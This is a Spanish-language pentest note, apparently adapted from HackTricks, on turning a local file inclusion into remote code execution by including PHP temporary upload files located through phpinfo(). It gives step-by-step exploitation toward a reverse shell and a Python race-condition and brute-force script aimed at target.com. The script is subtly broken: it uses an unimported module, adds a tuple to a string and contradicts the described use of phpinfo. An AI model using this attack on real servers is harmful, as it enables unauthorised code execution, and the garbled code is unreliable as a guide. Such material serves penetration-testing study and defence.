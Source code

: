 
---
# Subida de Archivos mediante LFI2RCE con phpinfo()

En un pentest, si encontramos una vulnerabilidad LFI (Local File Inclusion) y la directiva `file_uploads` está activada en PHP, podemos intentar ejecutar código malicioso aprovechando los archivos temporales generados durante la subida de archivos.

## Requisitos

- Vulnerabilidad LFI en la aplicación web.
- Directiva `file_uploads = On` en la configuración de PHP.
- Directorio `/tmp` con permisos de escritura por parte del servidor.
- Acceso a una página que muestre la salida de `phpinfo()`.

## Procedimiento

1. **Subida del archivo malicioso**: Subimos un archivo PHP (por ejemplo, `shell.php`) a través de un formulario de subida. El archivo se almacena temporalmente en el directorio `/tmp` con un nombre aleatorio.

2. **Identificación del archivo temporal**: Accedemos a la página que muestra `phpinfo()` y buscamos la variable `$_FILES`. Esta variable contiene información sobre los archivos subidos, incluyendo el nombre del archivo temporal asignado por el servidor.

3. **Explotación de la LFI**: Utilizamos la vulnerabilidad LFI para incluir el archivo temporal antes de que sea eliminado por el servidor. Esto se puede lograr accediendo a la ruta completa del archivo temporal, por ejemplo, `/tmp/php12345`.

4. **Obtención de acceso remoto**: Si el archivo PHP contiene código malicioso, como una reverse shell, al incluirlo mediante LFI, se ejecutará en el servidor, otorgándonos acceso remoto.

## Ejemplo de script en Python

```python
import itertools
import requests
import sys

print('[+] Ejecutando Race Condition')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)

print('[+] Fuerza bruta del nombre del archivo temporal')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] Shell obtenida: ' + url)
        sys.exit(0)

print('[x] Algo salió mal, por favor intente nuevamente')
````

## Consideraciones

- **Sincronización**: La explotación de esta técnica depende de la sincronización entre la subida del archivo y la inclusión del mismo antes de su eliminación. Es posible que se requieran múltiples intentos.
    
- **Seguridad**: Esta técnica puede ser mitigada deshabilitando la subida de archivos o configurando adecuadamente los permisos en el directorio temporal.
    

Para más detalles, consulta la fuente original: [HackTricks - LFI2RCE via phpinfo()](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-phpinfo.html)

